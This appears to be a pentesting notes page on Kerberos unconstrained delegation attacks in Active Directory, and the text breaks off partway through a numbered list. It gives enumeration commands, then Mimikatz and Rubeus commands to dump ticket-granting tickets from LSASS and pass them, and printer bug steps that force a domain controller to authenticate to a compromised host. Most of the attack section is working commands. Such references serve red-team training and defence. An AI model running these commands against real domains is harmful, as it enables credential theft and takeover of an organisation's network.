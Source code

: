 # Delegations

Kerberos delegation allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

## Unconstrained Delegation

Unconstrained Delegation allowing using the user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainComputer -UnConstrained
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
{% endtab %}
{% endtabs %}

### Exploitation

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

```powershell
# Extract the TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```

### Printer bug

The printer bug uses an RPC call of MS-RPRN which allows any domain user can force any machine that running the Spooler service to connect to second a machine of the domain user's choice.

1. Run on compromised Server Rubeus monitor

```powershell
Rubeus.exe monitor /interval:5 /nowrap
```

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3.

